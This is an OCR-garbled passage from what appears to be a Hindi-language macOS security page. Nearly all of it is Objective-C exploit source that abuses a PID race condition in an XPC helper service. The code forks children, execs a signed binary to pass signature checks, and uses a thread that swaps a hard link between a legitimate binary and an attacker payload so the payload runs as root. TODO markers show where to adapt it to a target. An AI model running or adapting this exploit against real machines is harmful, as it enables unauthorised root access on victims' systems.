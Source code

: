 इस उदाहरण में एक कच्चा \*\*\`fork\`\*\* उपयोग किया गया है \*\*जो PID रेस कंडीशन का शिकार होने वाले बच्चों को लॉन्च करने के लिए\*\* और फिर \*\*एक और रेस कंडीशन का शिकार होने के लिए हार्ड लिंक के माध्यम से उत्पीड़न करें:\*\* \`\`\`objectivec // export OBJC\_DISABLE\_INITIALIZE\_FORK\_SAFETY=YES // gcc -framework Foundation expl.m -o expl

\#include \<Foundation/Foundation.h> #include \<spawn.h> #include \<pthread.h>

// TODO: CHANGE PROTOCOL AND FUNCTIONS @protocol HelperProtocol

* (void)DoSomething:(void (^)(\_Bool))arg1; @end

// Global flag to track exploitation status bool pwned = false;

/\*\*

* Continuously overwrite the contents of the 'hard\_link' file in a race condition to make the
* XPC service verify the legit binary and then execute as root out payload. \*/ void \*check\_race(void \*arg) { while(!pwned) { // Overwrite with contents of the legit binary system("cat ./legit\_bin > hard\_link"); usleep(50000);

// Overwrite with contents of the payload to execute // TODO: COMPILE YOUR OWN PAYLOAD BIN system("cat ./payload > hard\_link"); usleep(50000); } return NULL; }

void child\_xpc\_pid\_rc\_abuse(){ // TODO: INDICATE A VALID BIN TO BYPASS SIGN VERIFICATION #define kValid "./Legit Updater.app/Contents/MacOS/Legit" extern char \*\*environ;

// Connect with XPC service // TODO: CHANGE THE ID OF THE XPC TO EXPLOIT NSString\* service\_name = @"com.example.Helper"; NSXPCConnection\* connection = \[\[NSXPCConnection alloc] initWithMachServiceName:service\_name options:0x1000]; // TODO: CNAGE THE PROTOCOL NAME NSXPCInterface\* interface = \[NSXPCInterface interfaceWithProtocol:@protocol(HelperProtocol)]; \[connection setRemoteObjectInterface:interface]; \[connection resume];

id obj = \[connection remoteObjectProxyWithErrorHandler:^(NSError\* error) { NSLog(@"\[-] Something went wrong"); NSLog(@"\[-] Error: %@", error); }];

NSLog(@"obj: %@", obj); NSLog(@"conn: %@", connection);

// Call vulenrable XPC function // TODO: CHANEG NAME OF FUNCTION TO CALL \[obj DoSomething:^(\_Bool b){ NSLog(@"Response, %hdd", b); }];

// Change current process to the legit binary suspended char target\_binary\[] = kValid; char \*target\_argv\[] = {target\_binary, NULL}; posix\_spawnattr\_t attr; posix\_spawnattr\_init(\&attr); short flags; posix\_spawnattr\_getflags(\&attr, \&flags); flags |= (POSIX\_SPAWN\_SETEXEC | POSIX\_SPAWN\_START\_SUSPENDED); posix\_spawnattr\_setflags(\&attr, flags); posix\_spawn(NULL, target\_binary, NULL, \&attr, target\_argv, environ); }

/\*\*

* Function to perform the PID race condition using children calling the XPC exploit. \*/ void xpc\_pid\_rc\_abuse() { #define RACE\_COUNT 1 extern char \*\*environ; int pids\[RACE\_COUNT];

// Fork child processes to exploit for (int i = 0; i < RACE\_COUNT; i++) { int pid = fork(); if (pid == 0) { // If a child process child\_xpc\_pid\_rc\_abuse(); } printf("forked %d\n", pid); pids\[i] = pid; }

// Wait for children to finish their tasks sleep(3);

// Terminate child processes for (int i = 0; i < RACE\_COUNT; i++) { if (pids\[i]) { kill(pids\[i], 9); } } }
